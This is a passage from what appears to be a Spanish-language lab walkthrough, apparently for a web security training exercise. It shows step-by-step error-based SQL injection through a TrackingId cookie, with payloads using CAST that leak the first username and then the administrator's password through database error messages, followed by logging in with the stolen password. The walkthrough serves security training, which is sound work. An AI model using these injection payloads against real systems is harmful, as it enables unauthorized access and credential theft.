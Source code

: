 1.   Observe que vuelve a recibir el mensaje de error inicial. Observe que su consulta ahora parece estar truncada debido a un límite de caracteres. Como resultado, no se incluyen los caracteres de comentario que añadió para corregir la consulta. ç

2. Elimine el valor original de la cookie `TrackingId` para liberar caracteres adicionales. Reenvíe la solicitud. 

``TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)-- 

---

1. Observe que recibe un nuevo mensaje de error, que parece generado por la base de datos. Esto sugiere que la consulta se ejecutó correctamente, pero sigue recibiendo un error porque devolvió más de una fila inesperadamente. 

2. Modifique la consulta para que solo devuelva una fila:

``TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- 

1. Envíe la solicitud. Observe que el mensaje de error ahora filtra el primer nombre de usuario de la tabla `users`: 

``ERROR: sintaxis de entrada no válida para el tipo entero: "administrator" 

---

1. Ahora que sabe que `administrator` es el primer usuario de la tabla, modifique la consulta de nuevo para filtrar su contraseña: 

``TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--

---

1. Inicie sesión como `administrator` con la contraseña robada para resolver el laboratorio.






